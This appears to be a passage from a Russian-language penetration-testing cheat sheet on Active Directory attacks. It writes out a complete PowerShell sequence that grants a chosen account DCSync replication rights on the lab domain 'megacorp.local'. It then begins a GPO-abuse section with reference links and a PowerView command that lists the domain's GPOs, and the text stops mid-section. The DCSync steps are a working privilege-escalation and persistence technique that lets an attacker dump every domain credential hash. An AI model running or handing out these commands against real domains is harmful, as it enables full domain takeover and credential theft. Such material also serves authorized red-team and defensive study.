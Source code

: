 Add DCSync rights with ActiveDirectory module:

* [https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)

1. Получить ACL для корневого объекта (домен).
2. Получить SID для аккаунта, которому нужно дать DCSync.
3. Создать новый ACL и выставить в нем права "Replicating Directory Changes" (GUID `1131f6ad-...`) и "Replicating Directory Changes All" (GUID `1131f6aa-...`) для SID из п. 2.
4. Применить изменения.

```
PS > Import-Module ActiveDirectory
PS > $acl = Get-Acl "AD:DC=megacorp,DC=local"
PS > $user = Get-ADUser snovvcrash
PS > $sid = New-Object System.Security.Principal.SecurityIdentifier $user.SID
PS > $objectGuid = New-Object guid 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
PS > $identity = [System.Security.Principal.IdentityReference] $sid
PS > $adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
PS > $type = [System.Security.AccessControl.AccessControlType] "Allow"
PS > $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
PS > $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > $objectGuid = New-Object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
PS > $ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > Set-Acl -AclObject $acl "AD:DC=megacorp,DC=local"
```




## GPO Abuse

* [https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)
* [https://wald0.com/?p=179](https://wald0.com/?p=179)
* [https://habr.com/ru/company/jetinfosystems/blog/449278/](https://habr.com/ru/company/jetinfosystems/blog/449278/)
* [https://github.com/EvotecIT/GPOZaurr](https://github.com/EvotecIT/GPOZaurr)



### Permissions Abuse


#### Recon

Show all GPOs in the domain:

```
PowerView3 > Get-NetGPO -Domain megacorp.local | select cn,displayname
```

Search for GPOs that are controlled by the "MEGACORP\PolicyAdmins" group:
